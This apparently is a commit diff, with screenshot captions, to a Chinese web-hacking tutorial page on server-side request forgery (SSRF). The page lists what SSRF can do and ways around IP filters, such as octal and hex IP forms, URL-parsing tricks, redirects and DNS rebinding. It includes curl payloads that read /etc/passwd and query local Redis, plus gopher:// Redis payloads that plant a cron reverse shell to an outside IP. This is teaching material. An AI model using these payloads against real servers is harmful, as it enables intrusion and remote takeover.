

Before and after one commit to LyleMi/Learn-Web-Hacking, a Sphinx documentation site: the page built from source/vuln/ssrf.rst, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
update ssrf

```diff
--- a/source/vuln/ssrf.rst
+++ b/source/vuln/ssrf.rst
@@ -3,31 +3,33 @@
 
 漏洞危害
 --------------------------------
-- 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;
-- 攻击运行在内网或本地的应用程序（比如溢出）;
-- 对内网Web应用进行指纹识别，通过访问默认文件实现;
-- 攻击内外网的Web应用，主要是使用Get参数就可以实现的攻击（比如Struts2漏洞利用，SQL注入等）;
-- 利用File协议读取本地文件。
-
+- 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息
+- 攻击运行在内网或本地的应用程序（比如溢出）
+- 对内网Web应用进行指纹识别，通过访问默认文件实现
+- 攻击内外网的Web应用，主要是使用Get参数就可以实现的攻击（比如Struts2漏洞利用，SQL注入等）
+- 利用File协议读取本地文件
 
 利用方式
 --------------------------------
 SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的绕过方式。
 
-以curl为例
+以curl为例, 可以使用dict protocol操作Redis、file协议读文件、gopher协议反弹Shell等功能，常见的Payload如下：
 
 ::
 
-    # dict protocol (操作Redis)
+    curl -vvv 'dict://127.0.0.1:6379/info'
 
-    curl -vvv 'dict://127.0.0.1:6379/info' # file protocol (任意文件读取)
-
-    curl -vvv 'file:///etc/passwd' # gopher protocol (一键反弹Bash)
+    curl -vvv 'file:///etc/passwd'
 
     # * 注意: 链接使用单引号，避免$变量问题
 
     curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
 
+相关危险函数
+--------------------------------
+- ``file_get_contents()``
+- ``fsockopen()``
+- ``curl_exec()``
 
 过滤绕过
 --------------------------------
@@ -36,58 +38,46 @@
 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 
 一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：
-::
 
-    ^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$
 
-    ^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
-
-    ^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
+- ``^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$``
+- ``^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``
+- ``^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``
 
 对于这种过滤我们可以采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址我们可以改写成：
 
-::
-
-    8进制格式：0300.0250.0.1
-
-    16进制格式：0xC0.0xA8.0.1
-
-    10进制整数格式：3232235521
-
-    16进制整数格式：0xC0A80001
+- 8进制格式：0300.0250.0.1
+- 16进制格式：0xC0.0xA8.0.1
+- 10进制整数格式：3232235521
+- 16进制整数格式：0xC0A80001
 
 还有一种特殊的省略模式，例如10.0.0.1这个IP可以写成10.1
-
 
 利用解析URL所出现的问题
 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。
 
-http://www.baidu.com@192.168.0.1/
-
-当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。
-
+比如 ``http://www.baidu.com@192.168.0.1/`` 当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。
 
 利用302跳转
 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用302跳转的方式来进行绕过。
 
-(1) 在网络上存在一个很神奇的服务，http://xip.io 当我们访问这个网站的子域名的时候，例如192.168.0.1.xip.io，就会自动重定向到192.168.0.1。
+比如 ``xip.io`` 提供了一个方便的服务，当用户访问这个网站的子域名的时候，例如192.168.0.1.xip.io，就会自动重定向到192.168.0.1。
 
-(2) 由于上述方法中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，我们可以通过短地址的方式来绕过。经过测试发现新浪，百度的短地址服务并不支持IP模式，不过tinyurl.com所提供的短地址服务支持IP方式。
+但是由于上述方法中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，这种方式可以通过短地址的方式来绕过。
 
 通过各种非HTTP协议
 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。
 
-(1) GOPHER协议：通过GOPHER我们在一个URL参数中构造Post或者Get请求，从而达到攻击内网应用的目的。例如我们可以使用GOPHER协议对与内网的Redis服务进行攻击，可以使用如下的URL：
+比如通过gopher，可以在一个url参数中构造POST或者GET请求，从而达到攻击内网应用的目的。例如可以使用gopher协议对与内网的Redis服务进行攻击，可以使用如下的URL：
 
 ::
 
     gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
 
-(2) File协议：File协议主要用于访问本地计算机中的文件，我们可以通过类似file:///文件路径这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过file:///d:/1.txt 来访问D盘中1.txt的内容
-
+除了gopher协议，File协议也是SSRF中常用的协议，该协议主要用于访问本地计算机中的文件，我们可以通过类似 ``file:///path/to/file`` 这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过 ``file:///d:/1.txt`` 来访问D盘中1.txt的内容
 
 DNS Rebinding
 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
@@ -102,24 +92,25 @@
 - 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
 - 由于已经绕过验证，所以服务器端返回访问内网资源的结果。
 
-
-可能利用的协议
+可能的利用点
 --------------------------------
 - ftp、ftps （FTP爆破）
+- sftp
 - tftp（UDP协议扩展）
+- dict
+- gopher
+- ldap
 - imap/imaps/pop3/pop3s/smtp/smtps（爆破邮件用户名密码）
 - rtsp - smb/smbs （连接SMB）
 - telnet
-- 连接SSH/Telnet
 - http、https - 内网服务探测
-- 网络服务探测
 - ShellShock命令执行
 - JBOSS远程Invoker war命令执行
 - Java调试接口命令执行
 - axis2-admin部署Server命令执行
 - Jenkins Scripts接口命令执行
 - Confluence SSRF
-- Struts2一堆命令执行
+- Struts2 命令执行
 - counchdb WEB API远程命令执行
 - mongodb SSRF
 - docker API远程命令执行
```
Also changed, not shown: other parts of source/vuln/ssrf.rst (+1 -0 lines).
